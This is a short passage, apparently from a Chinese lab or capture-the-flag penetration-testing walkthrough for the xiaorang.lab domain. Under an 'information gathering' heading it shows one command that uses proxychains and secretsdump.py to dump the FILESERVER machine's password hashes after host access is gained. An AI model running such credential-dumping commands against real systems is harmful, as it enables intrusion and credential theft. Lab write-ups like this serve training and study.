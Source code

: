 [![](assets/1706846898-bc983ef12db6ae95181c00efbd56acfa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214215-8b2e891e-c03e-1.png)

## 信息搜集

获取主机权限后，抓一下`FILESERVER`的哈希

```bash
proxychains secretsdump.py -k -no-pass FILESERVER.xiaorang.lab -dc-ip 172.22.60.8
```
